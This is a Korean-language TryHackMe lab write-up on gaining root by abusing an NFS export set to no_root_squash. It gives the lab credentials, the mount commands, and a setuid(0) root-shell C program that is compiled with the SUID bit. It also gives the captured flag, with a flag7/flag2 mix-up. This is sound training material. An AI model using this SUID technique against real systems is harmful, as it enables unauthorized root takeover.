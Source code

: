 ## Privilege Escalation: NFS
> TryHackMe의 "Linux Privilege Escalation: NFS" 실습을 기반으로, NFS(Network File System)의 설정 오류를 이용해 SUID 바이너리를 업로드하고 루트 쉘을 획득한 과정을 상세히 정리하였다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.112.198
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **권한 상승 방법**: 잘못 설정된 NFS 공유 디렉토리 내에 SUID 바이너리를 업로드하여 루트 권한 획득
- **실습 일자**: 2025-04-20

---

### 2. 실습 과정

#### 2.1 SSH 접속 및 환경 분석
```bash
ssh karen@10.10.112.198
```
- 타겟 머신에 `karen` 계정으로 SSH 접속하였다.

![SSH 접속](./screenshots/ssh_connect.png)

- `/etc/exports` 파일을 열어보니 NFS로 공유된 디렉토리(`/home/backup`, `/tmp`, `/home/ubuntu/sharedfolder`)가 `no_root_squash` 옵션과 함께 외부에 전체 공개되어 있는 것을 확인하였다.

![NFS 설정 확인](/screenshots/exports_nfs.png)

---

#### 2.2 NFS 공유 디렉토리 식별

- Kali 머신에서 `showmount -e 10.10.112.198` 명령어로 NFS 공유 목록을 조회하였다.

```bash
showmount -e 10.10.112.198
```
- `/home/ubuntu/sharedfolder`가 공유되고 있음을 확인하였다.

![showmount 결과](./screenshots/nfs_share.png)

---

#### 2.3 공유 디렉토리 마운트

- 공격 머신(Kali)에서 공유 디렉토리를 마운트할 임시 디렉토리를 생성하고, NFS로 공유된 디렉토리를 마운트하였다.

```bash
mkdir /tmp/attackmount
mount -o rw 10.10.112.198:/home/ubuntu/sharedfolder /tmp/attackmount
```
- `mount | grep attackmount` 명령어로 마운트가 정상적으로 이루어졌는지 확인하였다.

![NFS 마운트 확인](./screenshots/share_mount.png)

---

#### 2.4 루트 쉘 SUID C 파일 작성 및 컴파일
- `/tmp/attackmount` 디렉토리에 루트 쉘을 획득할 수 있는 C 코드를 작성하였다.
```c
int main() {
  setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```

![SUID 파일 작성](./screenshots/create_rootshell.png)


- 해당 코드를 `file.c`로 저장한 뒤, 정적 컴파일 및 SUID 권한 설정을 하였다.
```bash
gcc file.c -o file -static
chmod +s file
```

![SUID 파일 설정](./screenshots/compile_rootshell.png)

---

#### 2.5 타겟 머신에서 SUID 실행 및 루트 쉘, 플래그 획득
- 타겟 머신의 `/home/ubuntu/sharedfolder` 디렉토리로 이동하여 `file` 바이너리를 실행하였다.

```bash
cd /home/ubuntu/sharedfolder
./file
```

- 이 바이너리는 공격자가 공유 디렉토리를 통해 업로드한 것이며, `setuid(0)`을 통해 루트 권한을 획득할 수 있었다.

- 루트 쉘이 정상적으로 획득되었음을 확인하고, 시스템을 탐색하여 플래그 파일을 찾아 읽어냈다.

```bash
find / -name flag7.txt
cat /home/matt/flag7.txt
```

![루트 쉘 및 플래그 획득](./screenshots/root_flag.png)

---

### 3. 최종 결과
- `no_root_squash` 옵션이 설정된 NFS 공유 디렉토리를 통해 루트 권한 획득 성공 (`uid=0(root)`)
- 해당 설정은 공격자가 SUID 바이너리를 외부에서 업로드하고 실행할 수 있게 되어 매우 위험함.
- flag2.txt 파일에서 플래그 확보: `THM-89384012`

---

### 4. 배운 점
> ✅ 이번 실습을 통해, 단순한 파일 공유 설정 오류 하나가 전체 시스템 권한 상승으로 이어질 수 있음을 명확히 체감하였다. 특히 `no_root_squash` 설정은 공격자가 root 권한을 에뮬레이션할 수 있게 해주며, 실질적으로 시스템을 장악할 수 있는 강력한 백도어 경로가 된다.

